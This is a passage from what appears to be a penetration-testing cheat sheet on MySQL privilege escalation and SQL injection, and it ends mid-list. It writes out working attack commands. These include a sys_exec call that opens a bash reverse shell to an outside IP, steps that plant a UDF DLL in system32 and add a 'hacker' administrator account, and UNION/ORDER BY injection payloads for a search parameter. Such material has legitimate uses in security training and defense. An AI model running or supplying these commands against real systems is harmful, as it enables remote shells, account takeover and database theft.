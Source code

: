 ```
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
```

```
mysql> select sys_exec('bash -i >& /dev/tcp/192.168.1.99/443 0>&1');
```

* Windows USE mysql;

```
CREATE TABLE potato(line blob);
INSERT INTO potato values(load_file('C://Users//Bob//Desktop//lib_mysqludf_sys.dll'));
```

```
SELECT * FROM mysql.potato INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
```

```
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
```

```
SELECT sys_exec("net user hacker Password123! /add");
```

```
SELECT sys_exec("net localgroup Administrators hacker /add");
```

### SQL Injection in search fields

Lets say the search page is handled by a file named sql.php and the parameter is search. Sql.php?search=pentesting First thing we try is to search with single quote ‘

```
Sql.php?search=’
```

If it returns an error, then we know its vulnerable. Our next step is to determine the number of columns starting from running a normal query on the search box to get an idea. Finding the number of columns:

```
Sql.php?search=test’ ORDER BY 1-- - 
```

or

```
Sql.php?search=' ORDER BY 1--
```

We keep incrementing the number until we hit an error which indicates the number of columns. Then we search for something similar to that below:

```
Sql.php?search=pentesting’ union select 1,1,1,1,1,1,1#
```

Or
